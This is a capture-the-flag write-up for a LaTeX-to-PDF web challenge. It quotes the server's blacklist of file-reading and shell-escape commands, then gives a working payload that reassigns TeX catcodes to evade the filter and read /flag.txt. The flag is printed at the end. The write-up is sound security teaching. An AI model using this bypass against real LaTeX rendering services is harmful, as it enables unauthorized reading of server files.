

# Latex

When visiting the website, we see it’s a simple form enabling us to input LaTeX code and get a PDF file showing the output:



When reading the source code, we come across `main.go`, which holds the LaTeX logic of the website. `main.go` holds a list of commands that it considers as insecure:

```go
blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein", "usepackage", "fileline", "verbatiminput", "url", "href", "text", "write", "newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics", "openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
```

So normally when we are talking filters that are used ******************before****************** the code has actually been executed, we consider:

- Maybe we can bypass the filter by encoding the payload?
- Maybe we can insert some characters that make the payload pass the filter, but LaTeX ignores?

We tried both these without digging too much, didn’t work.

Another thing we saw was:

> Why does `\input` include the backslash in the blacklist, while other commands don’t? Maybe we can find a way to include something between \ and input to make it pass the filter.
>

Then I came across this thing called [catcode](https://en.wikibooks.org/wiki/TeX/catcode), a command that essentially changes the “meaning” of a character. A simple PoC showed that it worked:

```latex
\documentclass[12pt]{article}
\begin{document}
\catcode`\@=0
@underline{hello}
\end{document}
```


**The challenges we needed to solve were:**

- Execute `\input{/flag.txt}` by adding a char in-between or changing the meaning of `\`
- Change the meaning of `{`, `_` and `}` since they are included in the flag
- `{` and `}` still need to be available though, because they are used for the `{/flag.txt}` part

I ended up with the following payload:

```latex
\documentclass{article}
\begin{document}
\catcode`\@=0
\catcode`\{=9
\catcode`\}=9
\catcode`\_=13
\catcode`\?=1
\catcode`\!=2
@input?/flag.txt!
\catcode`\{=1
\catcode`\}=2
\catcode`\_=8
\catcode`\$=3
\catcode`\?=12
\catcode`\!=12
\end{document}
```

Which gave us the flag:


Flag: `TCP1P{bypassing_latex_waf_require_some_latex_knowledge}`
